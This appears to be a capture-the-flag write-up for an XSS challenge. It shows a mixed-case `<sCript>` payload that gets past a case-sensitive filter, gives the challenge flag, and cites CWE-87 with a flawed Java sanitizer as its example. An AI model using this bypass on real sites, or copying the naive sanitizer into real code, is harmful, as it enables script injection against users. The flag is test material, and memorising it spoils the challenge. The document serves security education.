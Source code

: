 ## Cool Name Effect

### The Problem:

> Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it. (http://34.77.37.110/cool-effect/)

### The Solution:

- `<script>alert(1)</script>` gives -> `<[forbidden]>alert(1)<[forbidden]>` -> non-standard filter and possible XSS.  
- `<sCript>alert(1)</scriPt>`


### The flag: 
`ciyypjz`

### Notes:
- OWASP TOP 10 `Cross-Site Scripting (XSS)`.
- CWE-87:
  > The software does not neutralize or incorrectly neutralizes user-controlled input for alternate script syntax.   
  
  - In the following example, an XSS neutralization routine checks for the lower-case "script" string but does not account for alternate strings ("SCRIPT", for example):  
  ```
  public String preventXSS(String input, String mask) {
      return input.replaceAll("script", mask);
  }
  ```



